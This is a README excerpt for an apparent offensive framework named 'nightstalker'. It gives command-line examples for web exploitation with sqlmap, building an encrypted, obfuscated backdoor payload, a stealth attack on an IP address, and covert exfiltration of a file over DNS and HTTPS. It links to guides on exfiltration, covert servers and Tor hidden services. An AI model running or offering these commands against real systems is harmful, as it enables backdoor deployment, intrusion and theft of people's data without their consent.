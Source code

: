 ## Usage Examples

### Web Exploitation
```bash
# Launch web exploitation TUI
python -m nightstalker.redteam.web_exploit_tui

# Run web reconnaissance
python -m nightstalker.cli webred scan --url https://target.com --modules all

# Execute web exploits
python -m nightstalker.cli webred exploit --url https://target.com --exploit sqlmap
```

### Malware/Red Teaming
```bash
# Build polymorphic payload
python -m nightstalker.cli payload build --type backdoor --format python --encrypt --obfuscate

# Run red team attack
python -m nightstalker.cli redteam attack --target 192.168.1.100 --stealth-level 9

# Exfiltrate data covertly
python -m nightstalker.cli exfil --data sensitive.txt --channels dns https
```

---

# 📚 Documentation

## 📖 Core Documentation
- **[README.md](README.md)** - Main project documentation (this file)
- **[DIRECTORY_STRUCTURE.md](DIRECTORY_STRUCTURE.md)** - Complete project structure guide
- **[FRAMEWORK_SELECTION_GUIDE.md](FRAMEWORK_SELECTION_GUIDE.md)** - Choose the right framework

## 🌐 Web Exploitation Framework
- **[WEB_EXPLOIT_FRAMEWORK_README.md](WEB_EXPLOIT_FRAMEWORK_README.md)** - Complete web exploitation guide
- **[WEB_RED_TEAMING_GUIDE.md](WEB_RED_TEAMING_GUIDE.md)** - Web red teaming guide
- **[web_exploit_framework_demo.py](web_exploit_framework_demo.py)** - Framework demonstration

## 🦠 Malware & Red Teaming Framework
- **[LINUX_DEPLOYMENT_GUIDE.md](LINUX_DEPLOYMENT_GUIDE.md)** - Linux deployment guide
- **[EXFILTRATION_GUIDE.md](EXFILTRATION_GUIDE.md)** - Data exfiltration guide
- **[COVERT_SERVER_GUIDE.md](COVERT_SERVER_GUIDE.md)** - Covert server setup
- **[TOR_QUICK_SETUP.md](TOR_QUICK_SETUP.md)** - Tor hidden service setup

## 📋 Examples & Demos
- **[demo.py](demo.py)** - Main framework demonstration
- **[build_example.py](build_example.py)** - Payload building examples
- **[build_clean_example.py](build_clean_example.py)** - Clean payload examples
- **[exfil_example.py](exfil_example.py)** - Exfiltration examples
- **[no_server_exfil.py](no_server_exfil.py)** - No-server exfiltration
- **[webred_example.py](webred_example.py)** - Web red teaming examples
